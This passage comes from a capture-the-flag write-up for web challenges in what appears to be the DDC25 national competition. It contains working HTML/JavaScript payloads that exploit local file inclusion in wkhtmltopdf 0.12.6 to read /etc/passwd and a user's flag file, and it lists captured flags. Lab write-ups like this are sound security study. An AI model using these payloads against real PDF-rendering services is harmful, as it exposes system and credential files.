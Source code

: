 ![EvilPlot Parking Group after logging in as Bente](/DDC25National/parkingBente.png)

By then clicking the create parking button, we get the flag in a toast message:

``DDC{D4MN_P4rK1nG_C0Mp4n13S_4_3v3R}``

### The Legend
###### 162pts - 16 solves
> Jeg har lavet en mega fed legende generator, gå da lige ind og check den ud og få din helt egen custom legende!!.
TODO WRITE PROPERLY

![Homepage of The Legend](/DDC25National/legendHome.png)

By inputting anything and then running exiftool on the PDF we get: ``Creator: wkhtmltopdf 0.12.6``.

By researching this version number we quickly learn that it's vulnerable to SSRF and LFI.<https://github.com/wkhtmltopdf/wkhtmltopdf/issues/4536> In this case we can use the LFI to read ``/etc/passwd``:
```html
<script>
x=new XMLHttpRequest;
x.onload=function(){
document.write(this.responseText)
};
x.open("GET","file:///etc/passwd");
x.send();
</script>
```

By inputting this in the dream job section we see that a user named ``mrbeef`` exists. We can then try to read the flag from their home directory with:
```html
<script>
x=new XMLHttpRequest;
x.onload=function(){
document.write(this.responseText)
};
x.open("GET","file:///home/mrbeef/flag.txt");
x.send();
</script>
```

And we get our flag:

``DDC{w4x3d_4nd_w1ck3d_pdF_m4st3ry}``

### Hestenettet
###### 847pts - 4 solves
> Heyyy - har lavet en ny heste blog 🎉 og tror ikke helt på at nogen kan hacke den. Modsat andre internet fora, finder du ingen source-code leaks her!! Hvis du finder mit password gir jeg et flag (DDC{password}), men har ingen ide om hvordan du nogensinde skulle få det 😆
TODO WRITE PROPERLY

